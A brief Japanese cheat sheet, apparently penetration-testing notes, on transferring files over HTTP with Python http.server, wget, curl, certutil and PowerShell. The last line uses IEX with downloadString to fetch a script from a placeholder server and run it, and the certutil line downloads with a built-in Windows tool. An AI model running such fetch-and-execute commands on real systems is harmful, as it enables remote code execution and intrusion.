 ## ## HTTP/HTTPS
- リッスン側
```sh
sudo python3 -m http.server 80

# -dで任意のディレクトリを指定できる。
python3 -m http.server -d /opt/somedir
```

- ダウンロード側
Linuxの場合:
```sh
wget http://<HTTPサーバのIP>:<ポート番号>/<ファイル名> -O <お好みのファイル名>

curl http://<HTTPサーバのIP>:<ポート番号>/<ファイル名> -o <お好みのファイル名>
```
Windowsの場合:
```
C:\> certutil -URLcache -f http://<HTTPサーバのIP>/file file

PS C:\> powershell -c "Invoke-Webrequest -OutFile <お好みのファイル名> -Uri http://<HTTPサーバのIP>/<ファイル名>"

PS C:\> IEX(New-Object Net.WebClient).downloadString('http://<HTTPサーバのIP>:<ポート番号>/<ファイル名>')
```
